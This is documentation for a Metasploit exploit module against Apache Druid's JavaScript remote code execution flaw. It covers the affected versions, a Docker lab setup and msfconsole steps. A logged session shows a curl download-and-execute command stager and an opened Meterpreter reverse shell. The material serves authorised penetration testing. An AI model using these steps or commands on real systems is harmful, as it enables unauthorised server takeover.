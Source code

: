## Vulnerable Application

Apache Druid versions prior to `v0.20.1`

### Description

Apache Druid includes the ability to execute user-provided JavaScript code embedded in
various types of requests; however, that feature is disabled by default.

In Druid versions prior to `0.20.1`, an authenticated user can send a specially-crafted request
that both enables the JavaScript code-execution feature and executes the supplied code all
at once, allowing for code execution on the server with the privileges of the Druid Server process.
More critically, authentication is not enabled in Apache Druid by default.

The issue has been fixed in Apache Druid `v0.20.1`

This module has been tested successfully against the following versions:

Apache Druid 0.15.1 Debian 9.11 (Linux 3.10.0-957.21.3.el7.x86_64)

Apache Druid 0.16.0-iap8  Ubuntu 16.04 (Linux 3.10.0-957.27.2.el7.x86_64)

Apache Druid 0.17.1 CentOS 8.2.2004 (Core) (Linux 4.18.0-193.28.1.el8_2.x86_64)

Apache Druid 0.18.0-iap3 Debian 9.12 (Linux 4.19.0-0.bpo.8-amd64)

Apache Druid 0.19.0-iap7 Ubuntu 18.04 (Linux 4.14.193-149.317.amzn2.x86_64)

Apache Druid 0.20.0-iap4.1 Ubuntu 18.04 (Linux 4.19.112+)

Apache Druid 0.20.0 Debian 9.13 (Linux 5.4.0-1038-aws)

Apache Druid 0.21.0-iap3 CentOS 7.9.2009 (Linux 3.10.0-1160.15.2.el7.x86_64)

### Setup

A Docker container is available [here](https://hub.docker.com/r/fokkodriesprong/docker-druid)

To setup and run:

`docker pull fokkodriesprong/docker-druid`
`docker run --rm -i -p 8888:8888 fokkodriesprong/docker-druid`

For a manual setup:

* Download a vulnerable version of Apache Druid from [here](https://archive.apache.org/dist/druid/)
* Extract the downloaded archive
* Ensure a supported version of Java is installed on the system
* Start Apache Druid: `bin/start-nano-quickstart`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/apache_druid_js_rce`
4. Do: `set rhosts <ip>`
5. Do: `set lhost <ip>`
6. Do: `set lport/srvport <ip>` if necessary
7. Do: `run`
8. You should get a shell.

## Targets

### 0 (Linux Dropper)

This uses a Linux dropper to execute code.

### 1 (Unix Command)

This executes a Unix command.

## Options

### TARGETURI

The base path to the Apache Druid application. This is set to `/` by default.

## Scenarios

### Apache Druid 0.20.0-iap4.1 on Ubuntu 18.04 (Linux 4.19.112+)

```
msf exploit(linux/http/apache_druid_js_rce) > options

Module options (exploit/linux/http/apache_druid_js_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.100.70.2      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8888             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path of Apache Druid
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.100.70.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux (dropper)


msf exploit(linux/http/apache_druid_js_rce) > check

[*] Attempting to execute 'echo XjUoa3Mw8z0UBQKnZ' on the target.
[*] cmd= /bin/sh`@~-c`@~echo XjUoa3Mw8z0UBQKnZ   var=RUmlsVEYh   name=rZXrMaTO
[+] 10.100.70.2:8888 - The target is vulnerable.
msf exploit(linux/http/apache_druid_js_rce) > exploit

[*] Started reverse TCP handler on 10.100.70.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to execute 'echo hKJDyfi80sjuaSwfa38Skra' on the target.
[*] cmd= /bin/sh`@~-c`@~echo hKJDyfi80sjuaSwfa38Skra   var=MRCLndLkidu   name=eAYzmpMSm
[+] The target is vulnerable.
[*] Using URL: http://0.0.0.0:8080/t1yvMQyzxpNEIO
[*] Local IP: http://10.100.70.1:8080/t1yvMQyzxpNEIO
[*] Generated command stager: ["curl -so /tmp/OWmIlZjX http://10.100.70.1:8080/t1yvMQyzxpNEIO;chmod +x /tmp/OWmIlZjX;/tmp/OWmIlZjX;rm -f /tmp/OWmIlZjX"]
[*] cmd= /bin/sh`@~-c`@~curl -so /tmp/OWmIlZjX http://10.100.70.1:8080/t1yvMQyzxpNEIO;chmod +x /tmp/OWmIlZjX;/tmp/OWmIlZjX;rm -f /tmp/OWmIlZjX   var=xZpqsqSBeZ   name=qVwUlOBO
[*] Client 10.100.70.2 (curl/7.58.0) requested /t1yvMQyzxpNEIO
[*] Sending payload to 10.100.70.2 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012516 bytes) to 10.100.70.2
[*] Meterpreter session 4 opened (10.100.70.1:4444 -> 10.100.70.2:39486) at 2021-04-10 10:28:56 +0800
[*] Command Stager progress - 100.00% done (122/122 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 10.100.70.2
OS           : Ubuntu 18.04 (Linux 4.19.112+)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >

```
